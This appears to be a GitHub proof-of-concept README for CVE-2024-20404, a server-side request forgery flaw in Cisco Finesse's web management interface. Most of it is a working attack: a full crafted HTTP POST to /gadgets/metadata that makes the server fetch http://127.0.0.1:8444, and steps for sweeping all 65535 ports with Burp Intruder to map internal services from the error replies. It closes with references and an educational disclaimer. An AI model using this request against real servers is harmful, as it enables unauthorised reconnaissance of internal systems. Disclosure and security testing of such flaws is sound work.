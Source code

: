 ## Description

A vulnerability in the web-based management interface of Cisco Finesse could allow an unauthenticated, remote attacker to conduct an SSRF attack on an affected system.

This vulnerability is due to insufficient validation of user-supplied input for specific HTTP requests that are sent to an affected system. An attacker could exploit this vulnerability by sending a crafted HTTP request to the affected device. A successful exploit could allow the attacker to obtain limited sensitive information for services that are associated to the affected device.



## Proof of Concept (PoC)

1. Send the below request to check the response from the port number "8444" on the localhost of the server after replacing the `<target>` of yours.

```HTTP
POST /gadgets/metadata HTTP/2
Host: <target>:8445
Cookie: timeBeforeFailover=1695808242310; timeBeforeAttemptingLoginInIframe=1695808244317; attemptsMade=1; seqNumberGenerated=1; finesse_ag_extension=<extension>; activeDeviceId4000=SEPD4AD717A03F6; timeBeforeLoadingOtherSide=1695808249678
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/117.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://<target>:8445/desktop/container;jsessionid=90aE172355707490406528141464742B/?locale=en_US
Content-Type: application/json
Content-Length: 127
Origin: https://<target>:8445
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

{"context":{"container":"default","language":"en","country":"US","locale":"en_US"},"gadgets":[{"url":"http://127.0.0.1:8444"}]}
```

![](screenshots/Pasted%20image%2020240609205940.png)

2. Use the burp suite intruder to scan all the open ports on the Cisco Finesse web-based management server, by changing the port number from 1-65535.

3. You will see the response "Connection refused" on the closed ports.

![](screenshots/Pasted%20image%2020240609210322.png)

4. The other error messages indicate that these ports are open, and they can be enumerated.

![](screenshots/Pasted%20image%2020240609210501.png)



## References

- [https://nvd.nist.gov/vuln/detail/CVE-2024-20404](https://nvd.nist.gov/vuln/detail/CVE-2024-20404)
- [https://sec.cloudapps.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-finesse-ssrf-rfi-Um7wT8Ew](https://sec.cloudapps.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-finesse-ssrf-rfi-Um7wT8Ew)



## Disclaimer

This is just a Proof of Concept (PoC) to demonstrate that the Cisco Finesse web-based management interface is vulnerable to Server Side Request Forgery (SSRF), and this PoC is for educational purposes only. Use it responsibly and only on systems with explicit permission to test. Misuse of this PoC can result in severe consequences.
